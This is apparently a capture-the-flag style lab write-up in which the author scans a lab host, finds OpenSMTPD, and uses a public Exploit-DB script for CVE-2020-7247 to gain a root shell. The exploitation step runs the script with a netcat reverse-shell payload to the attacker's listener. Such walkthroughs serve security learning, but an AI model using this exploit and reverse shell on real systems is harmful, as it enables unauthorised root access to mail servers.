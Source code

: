 # Box: CVE-2020-7247
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.100.33 -T4  -v -p-```

```
Nmap scan report for 10.0.100.33
Host is up (0.14s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: CVE-2020-7247.echocity-f.com Hello nmap.scanme.org [10.10.6.230], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/28%OT=25%CT=1%CU=33018%PV=Y%DS=1%DC=T%G=Y%TM=6515713
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=110%TI=Z%CI=RI%II=I%TS=A)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=FB34%W2=FB34%W3=FB34%W4=FB34%W5=FB34%W6=FB34)EC
OS:N(R=Y%DF=N%T=40%W=FD5C%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=N%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=41%W=0%S=A%A=S%F=AR%O=%RD=0%Q=)T5
OS:(R=Y%DF=N%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=41%W=0%S=A%A=S
OS:%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 10.681 days (since Sun Sep 17 21:06:12 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: CVE-2020-7247.echocity-f.com

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   155.49 ms 10.0.100.33

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 28 13:27:30 2023 -- 1 IP address (1 host up) scanned in 774.88 seconds
```
From our nmap scan we can see only 1 open port. Our enumeration today will be focused on that port




# Enumeration

The smtp server is running ```OpenSMPTD```

Searching for available exploits

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e027242-1325-43a7-a98d-2088646ed346)

I found that, you can get the exploit [here](https://www.exploit-db.com/exploits/47984)

Now that we've found the exploit, lets exploit this




# Exploitation

Lets run the exploit

command:```python3 47984.py 10.0.100.33 25 'nc LHOST LPORT -e /bin/sh'```

Ensure you set your ```LHOST``` and ```LPORT```

Also, before running, lets set our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/afb45573-70f3-4251-8b92-0ffca2a0d46d)

Good.

Running the exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e31c08de-4aa8-4855-a2b0-cdcf7bc288a6)

We got a shell as the ```root``` user. This was quite easy

Well, this means we have successfully pwned this box😎



That will be all for today
<br><br>
[Back To Home](../../index.md)


















